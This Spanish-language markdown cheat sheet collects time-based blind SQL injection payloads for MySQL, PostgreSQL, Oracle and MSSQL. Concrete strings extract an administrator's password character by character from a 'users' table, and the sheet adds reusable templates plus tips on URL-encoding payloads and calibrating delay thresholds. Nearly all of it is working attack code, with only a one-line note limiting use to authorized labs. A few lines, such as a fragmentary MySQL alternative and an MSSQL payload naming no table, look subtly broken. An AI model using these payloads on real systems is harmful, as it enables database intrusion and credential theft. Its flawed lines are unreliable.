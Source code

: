 
---

# Payloads time-based SQLi para diferentes bases de datos

A continuación presentamos ejemplos de payloads **time-based** para SQLi usando cuatro tipos de bases de datos: [MySQL](MySQL.md), [PostgreSQL](.md), [Oracle](Documento%20Hacker/OWASP%20TOP%2010/Bases%20de%20datos%20db/Oracle.md) y [MSSQL](MSSQL.md) (Microsoft SQL Server ). Incluimos un ejemplo concreto con `username='administrator'` y tabla `users`, y una plantilla general para adaptar a otras tablas o columnas.


---

## 1) MySQL

**Payload concreto:**

```sql
' OR IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='d', SLEEP(5), 0) -- -
```

**Plantilla general:**

```sql
' OR IF((SELECT SUBSTRING(<COLUMN>, <POS>, 1) FROM <TABLE> WHERE <user_column>='<username>')='<char>', SLEEP(<secs>), 0) -- -
```

**Notas:** `IF(condition,true,false)` y `SLEEP(seconds)` son específicos de MySQL.


---

### Variantes de MySQL

1. **Inline (más portable, usa subconsulta para obtener el carácter):**

```sql
' OR IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='d', SLEEP(5), 0) -- -
```

Esto evalúa la subconsulta que devuelve el primer carácter de la contraseña del administrador y duerme 5s si es `d`.

2. **Stacked query (si el driver permite múltiples sentencias):**

```sql
'; SELECT IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='d', SLEEP(5), 0);-- 
```

Aquí usamos `;` para ejecutar una sentencia independiente que llama a `SLEEP(5)`.

3. **Versión compacta que compara dentro de FROM (menos recomendada por múltiples filas):**

```sql
' AND IF(SUBSTRING(password,1,1)='d', SLEEP(5), 0) FROM users WHERE username='administrator' -- -
```

Puede comportarse de forma ambigua si la consulta devuelve varias filas; preferimos las opciones 1 o 2.

**Notas rápidas:**

- Asegurarnos de escapar/encerrar correctamente las comillas internas (p. ej. `username='administrator'`).

- Codificar la payload si la enviamos en una cookie/URL (`;` → `%3B`, espacios → `%20`).

- Si hay sensibilidad de mayúsculas usar `LOWER(...)` para comparar.

- Si el driver no permite stacked queries, usar la opción 1 (subconsulta) es la más fiable.


---

### Alternativa: uso de SUBSTRING con subconsulta

**Consulta alternativa (MySQL):**

```sql
SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1)='a',sleep(5),sleep(0))-- -
```

**Explicación breve:**

- Usamos una subconsulta que devuelve la contraseña completa del usuario objetivo y luego aplicamos `SUBSTRING(..., 1, 1)` sobre el resultado para obtener el primer carácter.

- Es sintácticamente válida en MySQL y funcionalmente equivalente a aplicar `SUBSTRING` dentro de la subconsulta (`SELECT SUBSTRING(password,1,1) FROM users ...`).


Usamos esta variante como alternativa por claridad cuando queremos envolver la subconsulta explícitamente dentro de la función de extracción.


---

## 2) PostgreSQL

**Payload concreto:**

```sql
' OR (SELECT CASE WHEN substring(password from 1 for 1)='d' THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

**Plantilla general:**

```sql
' OR (SELECT CASE WHEN substring(<COLUMN> from <POS> for 1)='<char>' THEN pg_sleep(<secs>) ELSE pg_sleep(0) END FROM <TABLE> WHERE <user_column>='<username>')--
```

**Notas:** `pg_sleep(seconds)` es la función para retrasar la respuesta en PostgreSQL. `substring(col from pos for len)` extrae la subcadena.


---

## 3) Oracle

**Payload concreto:**

```sql
' OR (SELECT CASE WHEN SUBSTR(password,1,1)='d' THEN DBMS_LOCK.SLEEP(5) ELSE 0 END FROM users WHERE username='administrator')--
```

**Plantilla general:**

```sql
' OR (SELECT CASE WHEN SUBSTR(<COLUMN>,<POS>,1)='<char>' THEN DBMS_LOCK.SLEEP(<secs>) ELSE 0 END FROM <TABLE> WHERE <user_column>='<username>')--
```

**Notas:** `DBMS_LOCK.SLEEP(seconds)` es la función equivalente a sleep en Oracle. `SUBSTR(col,pos,len)` devuelve una subcadena.


---

## 4) Microsoft SQL Server (MSSQL)

**Payload concreto:**

```sql
' IF (SUBSTRING(password,1,1)='d') WAITFOR DELAY '00:00:05'--
```

**Plantilla general:**

```sql
' IF (SUBSTRING(<COLUMN>,<POS>,1)='<char>') WAITFOR DELAY '00:00:<secs>'--
```

**Notas:** `WAITFOR DELAY 'hh:mm:ss'` induce un retraso en SQL Server. `SUBSTRING(col,pos,len)` devuelve la subcadena.


---

## Notas operativas comunes

- Preferimos subconsultas inline cuando el motor no permite stacked queries.
    
- Codificamos la payload si se envía en cookies/URL para evitar problemas de transporte (`;` → `%3B`, espacios → `%20`, `'` → `%27`).
    
- Ajustamos `<secs>` a un valor razonable según la latencia de la red y calibramos el umbral en el cliente usando `r.elapsed.total_seconds()`.
    
- Usar solo en entornos autorizados y de laboratorio.
    

---
